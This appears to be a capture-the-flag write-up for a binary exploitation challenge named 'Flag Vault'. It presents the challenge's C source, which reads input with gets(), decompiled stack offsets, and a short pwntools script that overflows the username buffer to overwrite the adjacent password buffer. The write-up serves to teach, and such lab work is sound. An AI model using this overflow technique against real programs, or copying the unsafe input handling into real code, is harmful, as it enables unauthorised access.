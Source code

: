 ```yaml
---
title: "Flag Vault"
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flags: THM{REDACTED}
---
```

> No description.

---

The challenge is a simple buffer overflow challenge.

```c
void login(){
	char password[100] = "";
	char username[100] = "";

	printf("Username: ");
	gets(username);

	// If I disable the password, nobody will get in.
	//printf("Password: ");
	//gets(password);

	if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
		print_flag();
	}
	else{
		printf("Wrong password! No flag for you.");
	}
}
```

When we can overflow the `username` buffer, and we can overwrite the password buffer (we can't overwrite the return address because of the PIE).

```c
char s1[8]; // [rsp+0h] [rbp-E0h] BYREF
__int64 v2; // [rsp+8h] [rbp-D8h]
__int64 v3; // [rsp+10h] [rbp-D0h]
__int64 v4; // [rsp+18h] [rbp-C8h]
__int64 v5; // [rsp+20h] [rbp-C0h]
__int64 v6; // [rsp+28h] [rbp-B8h]
__int64 v7; // [rsp+30h] [rbp-B0h]
__int64 v8; // [rsp+38h] [rbp-A8h]
__int64 v9; // [rsp+40h] [rbp-A0h]
__int64 v10; // [rsp+48h] [rbp-98h]
__int64 v11; // [rsp+50h] [rbp-90h]
__int64 v12; // [rsp+58h] [rbp-88h]
int v13; // [rsp+60h] [rbp-80h]
char v14[8]; // [rsp+70h] [rbp-70h] BYREF
__int64 v15; // [rsp+78h] [rbp-68h]
__int64 v16; // [rsp+80h] [rbp-60h]
__int64 v17; // [rsp+88h] [rbp-58h]
__int64 v18; // [rsp+90h] [rbp-50h]
__int64 v19; // [rsp+98h] [rbp-48h]
__int64 v20; // [rsp+A0h] [rbp-40h]
__int64 v21; // [rsp+A8h] [rbp-38h]
__int64 v22; // [rsp+B0h] [rbp-30h]
__int64 v23; // [rsp+B8h] [rbp-28h]
__int64 v24; // [rsp+C0h] [rbp-20h]
__int64 v25; // [rsp+C8h] [rbp-18h]
int v26; // [rsp+D0h] [rbp-10h]
```

We can overwrite the `v14` variable where the offset is `0x70`, so we need to fill the buffer with `0x70` bytes and then write the password.

```py
from pwn import *

binary = './pwn1'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('10.10.23.57', 1337)

r.sendlineafter(b'Username: ', flat([
    b'bytereaper'.ljust(112, b'\x00'),
    b'5up3rP4zz123Byte\x00'
]))

r.interactive()
```
